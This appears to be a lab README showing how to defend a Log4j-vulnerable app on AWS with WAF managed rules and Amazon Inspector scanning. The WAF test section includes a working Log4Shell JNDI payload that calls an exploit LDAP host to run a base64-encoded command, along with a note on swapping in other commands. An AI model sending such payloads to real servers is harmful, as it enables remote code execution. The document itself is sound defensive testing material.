



# Mitigate Log4Shell(CVE-2021-44228) on AWS


## Environment Setup

Follow the [README](./README.md) to implement the HTTP Server and JNDI Exploit host for optional.

### Setup ALB for HTTP Server

1. Create a **Target Gruop** and register the EC2 Instance, which hosted vulnerable app on `8080` port.

    
2. Ensure the success codes set to `400` for **health check**. The health check request would not include the HTTP header, and receive the `400` error for bad reuqest.
    
3. Create an ALB and indicate the listener to redirect incoming traffic to the target group just created. Remind that the ALB and EC2 Instance should be in same VPC.
    

> The ALB listen for 80 port and redirect the traffic to the target's 8080 port base on upon settings.

### Associate WAF with ALB

1. Create a **web ACL** in AWS WAF, which need to be the same region as ALB. Here's the `Oregon (us-west-2)` for demo.
   
2. For the **Rules** in that web acls, apply 2 AWS Managed Rules: `AWSManagedRulesKnownBadInputsRuleSet` and `AWSManagedRulesAnonymousIpList`.
    

`AWSManagedRulesKnownBadInputsRuleSet` inspects request uri, body, and commonly used headers based on the regex.

`AWSManagedRulesAnonymousIpList` blocks the requests from services that allow the obfuscation of viewer identity. including VPN, Tor nodes, proxies, or data centers...etc..

## Mitigation / Exploitation

### Normal Behavior

The Server will return `Hello World!`, when Client sending the request properly with `X-Api-Version` header. Otherwise, the client would get the `400` HTTP error as bad request.

#### Client from local laptop

```bash
$ curl ALB_ENDPOINT
{"timestamp":"2021-12-23T08:52:38.129+00:00","status":400,"error":"Bad Request","path":"/"}%
$ curl ALB_ENDPOINT -H 'X-Api-Version: 1.1'
Hello, world!
```


#### Server Log

```bash
# There would be lots of this due to the health check from target group
2021-12-23 08:52:38.128  WARN 1 --- [nio-8080-exec-9] .w.s.m.s.DefaultHandlerExceptionResolver : Resolved [org.springframework.web.bind.MissingRequestHeaderException: Required request header 'X-Api-Version' for method parameter type String is not present]
# Requests with the header properly
2021-12-23 08:52:40.373  INFO 1 --- [io-8080-exec-10] HelloWorld                               : Received a request for API version 1.1
```


#### Client from EC2 Instance

Becasue the request sent out from EC2 Instance, it would receive the response with `403` HTTP error, denied by the `AWSManagedRulesAnonymousIpList` WAF rule, which blocks the obfuscated requests.

```bash
$ curl ALB_ENDPOINT
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
</body>
</html>
$ curl ALB_ENDPOINT -H 'X-Api-Version: 1.1'
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
</body>
</html>
```


We can also review the requests' action are `ALLOW` or `BLOCK` by the AWS WAF Rules. As below we can see the requests from EC2 IPs were filtered by `AWSManagedRulesAnonymousIpList` WAF rule.



### AWS WAF / Injection Attack

Now we gonna to send the injection request with header `'X-Api-Version: ${jndi:ldap://10.0.1.164:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`, which would trigger the CVE-2021-44228 to execute the JNDI lookup to access with ldap, and preform the RCE.

The `dG91Y2ggL3RtcC9wd25lZAo=}` is base64 encoded from linux command line `touch /tmp/pwned`. Once the RCE achieved, it would create a file in the vulnerable app.

You can also change the behavior by replacing the base64 string with https://www.base64encode.org/.

#### Client from local laptop / EC2 Instance

The requests would be blocked if contenting know bad input by `AWSManagedRulesKnownBadInputsRuleSet` WAF rule, managed by AWS. As below, we can see it would get the `403` error if the request contenting the `jndi` lookup.

```bash
# Send the request with full injection
$ curl ALB_ENDPOINT -H 'X-Api-Version: ${jndi:ldap://JNDI_EXPLOIT_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
</body>
</html>
# Send the request with 'jndi' string
$ curl ALB_ENDPOINT -H 'X-Api-Version: ${jndi:123}'
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
</body>
</html>
# Send the request with normal system infomation
$ curl ALB_ENDPOINT -H 'X-Api-Version: ${java:os}'
Hello, world!
```


If the requests were from EC2 Instance, they were blocked by `AWSManagedRulesAnonymousIpList` and `AWSManagedRulesKnownBadInputsRuleSet` WAF rules.


### Amazon Inspector v2 / Vulnerablilies Scan

AWS offers Enhanced Scanning with [Amazon Inspector](https://aws.amazon.com/inspector/), which is designed to continually scan EC2 instances via [ssm agent](https://docs.aws.amazon.com/systems-manager/latest/userguide/ssm-agent.html) and container images stored at ECR for known security issues.

There's already a container images content log4j package, and uploaded to AWS ECR image repository. And an EC2 Instance hosts the container as vulnerable web application.  

- In the **Imgage details** of the container images, we can get the vulnerable findings via **Enhanced scanning**, if the Amazon Inspector were enabled.



- In the finding report, you can review the vulnerable information about the container image, and hit the link to redirect to Amazon Inspector to get the more details.


- Here's the findings about the EC2 Instance. The findings would show the vulnerable information about the instances.


- And also you can get the remediation suggestion to take for the EC2 instances.


## Reference

- [AWS - Update for Apache Log4j2 Issue (CVE-2021-44228)](https://aws.amazon.com/security/security-bulletins/AWS-2021-006/)
- [Amazon Linux Security Center](https://alas.aws.amazon.com/ALAS-2021-1553.html)
